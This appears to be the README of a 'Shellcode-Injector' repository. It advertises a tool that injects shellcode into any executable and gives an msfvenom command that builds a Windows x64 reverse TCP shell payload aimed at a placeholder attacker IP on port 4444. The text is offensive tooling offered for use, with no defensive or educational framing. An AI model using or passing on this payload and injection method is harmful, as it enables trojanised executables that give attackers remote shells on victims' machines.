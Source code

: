 # Shellcode-Injector
Inject shellcode into any executable .                                                                                                                


NOTE : CREATE YOUR OWN SHELLCODE USING MSFVENOM

Example : msfvenom -p windows/x64/shell_reverse_tcp LHOST=YOUR IP LPORT=4444 -f c
